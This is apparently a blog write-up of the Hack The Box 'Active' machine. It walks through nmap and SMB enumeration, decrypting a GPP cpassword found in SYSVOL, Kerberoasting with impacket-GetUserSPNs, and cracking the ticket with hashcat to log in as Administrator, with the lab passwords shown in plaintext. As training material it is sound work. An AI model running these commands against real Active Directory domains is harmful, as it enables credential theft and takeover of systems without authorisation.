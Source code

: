 ```yaml
---
layaout: post
image: /assets/images/active.png
title: Active Write Up HTB
date: 12-01-2025
categories: [Write ups]
tag: [Active Directory, kerberoasting, GPP]
excerpt: "Active is a relatively straightforward machine, perfect for getting started with Active Directory. In this machine, we'll explore techniques like Kerberoasting and GPP Passwords, two common methods for privilege escalation in AD environments. Great for practicing and understanding key concepts!"
---
```

![img-description](/assets/images/active.png)

**Active** is a relatively straightforward machine, perfect for getting started with **Active Directory**. In this machine, we'll explore techniques like **Kerberoasting** and **GPP Passwords**, two common methods for privilege escalation in AD environments. Great for practicing and understanding key concepts! 🚀
## **ENUMERATION**
----
### Nmap scanning
----
We start using nmap:
````bash 
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  tcpwrapped    syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49173/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 53262/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 52552/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-01-27T18:16:36
|_  start_date: 2025-01-27T17:58:44
|_clock-skew: -1s
````
After analyzing the nmap, we can realize that we are dealing with an Active Directory, so we will start by enumerating the SMB.

### Enumerating smb as anonymous
----
````bash
smbclient -L \\\10.10.10.100/shares
Password for [WORKGROUP\root]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
````

### On smb we found credentails for SVC_TGS
---
````bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
  .                                   D        0  Sat Jul 21 12:37:44 2018
  ..                                  D        0  Sat Jul 21 12:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 22:46:06 2018

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
````

## **FOOTHOLD**
----
### Group Policy Preferences

When a new Group Policy Preference (GPP) is created, an XML file is stored in the SYSVOL share containing its configuration, including any associated passwords. These passwords are AES-encrypted and stored as `cpassword`. However, Microsoft publicly [released the encryption key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx).

In 2014, Microsoft patched this by preventing admins from adding passwords to GPP, but it didn’t address existing vulnerable passwords. As of 2025, pentesters still find these issues. For more details, see this [AD Security post](https://adsecurity.org/?p=2288).

### Enumerating SMB as SVC_TGS
----

````bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18

smb: \SVC_TGS\Desktop\> ls
  .                                   D        0  Sat Jul 21 17:14:42 2018
  ..                                  D        0  Sat Jul 21 17:14:42 2018
  user.txt                           AR       34  Tue Jan 28 02:14:45 2025

                5217023 blocks of size 4096. 260447 blocks available
````
## **PRIVILEGE ESCALATION**
----
### Kerberoasting
----
Kerberos is an authentication protocol used in Windows Active Directory environments (and can also be used for Linux hosts). In 2014, Tim Medin introduced the _Kerberoasting_ attack. This attack involves obtaining Kerberos tickets encrypted with the hash of a service account's password. Instead of sending the ticket to the service, it can be brute-forced offline to crack the password.

Typically, an active domain account is required to perform the attack. However, if the Domain Controller (DC) is configured with the _"Do not require Kerberos preauthentication"_ setting, it’s possible to request and receive a ticket without a valid domain account.

We are going to use the credentials we previously obtained to execute the attack using `impacket-GetUserSPNs`.
````bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2025-01-27 18:59:55.488567
````
We were able to extrat the ticket which we will try to force decrypt to get Administrator's password

````bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
````

## LOGIN AS ADMINISTRATOR
---
````bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968

smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Jan 21 17:49:47 2021
  ..                                 DR        0  Thu Jan 21 17:49:47 2021
  desktop.ini                       AHS      282  Mon Jul 30 15:50:10 2018
  root.txt                           AR       34  Mon Jan 27 18:59:52 2025
  
````
![netrunner](/assets/images/netrunner.gif)